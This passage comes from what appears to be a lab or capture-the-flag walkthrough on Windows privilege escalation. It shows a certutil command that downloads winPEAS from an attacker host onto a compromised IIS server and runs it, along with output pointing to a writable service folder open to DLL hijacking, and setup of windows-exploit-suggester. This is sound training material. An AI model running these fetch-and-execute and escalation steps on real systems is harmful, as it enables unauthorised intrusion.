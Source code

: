 Download the `winPEAS` binary from the `netcat` listener and execute it to analyse.
{% capture code %}{% raw %}c:\windows\system32\inetsrv>cd c:\windows\temp

c:\Windows\Temp>certutil -urlcache -split -f "http://10.10.47.105:8080/winPEASx64.exe" winPEASx64.exe
certutil -urlcache -split -f "http://10.10.47.105:8080/winPEASx64.exe" winPEASx64.exe
****  Online  ****
000000  ...
17e600
CertUtil: -URLCache command completed successfully.

c:\Windows\Temp>winPEASx64.exe
========================================(Services Information)========================================

[+] Interesting Services -non Microsoft-
[?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services

    Amazon EC2Launch(Amazon Web Services, Inc. - Amazon EC2Launch)["C:\Program Files\Amazon\EC2Launch\EC2Launch.exe" service] - Auto - Stopped
    Amazon EC2Launch

    AmazonSSMAgent(Amazon SSM Agent)["C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"] - Auto - Running
    Amazon SSM Agent

    AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
    AWS Lite Guest Agent

    Ec2Config(Amazon Web Services, Inc. - Ec2Config)["C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe"] - Auto - Running - isDotNet
    Ec2 Configuration Service

    PsShutdownSvc(Systems Internals - PsShutdown)[C:\Windows\PSSDNSVC.EXE] - Manual - Stopped

    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper{% endraw %}{% endcapture %} {% include code.html code=code %}

Install the prerequisites for `windows-exploit-suggester`.
{% capture code %}{% raw %}apt install python-xlrd python3-xlrd{% endraw %}{% endcapture %} {% include code.html code=code %}

Download the `windows-exploit-suggester` git repo using `git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git`.

Save the previously obtained output of command `systeminfo` to be analysed with `windows-exploit-suggester`.

Update the database for `windows-exploit-suggester`.
{% capture code %}{% raw %}python2 windows-exploit-suggester.py --update{% endraw %}{% endcapture %} {% include code.html code=code %}
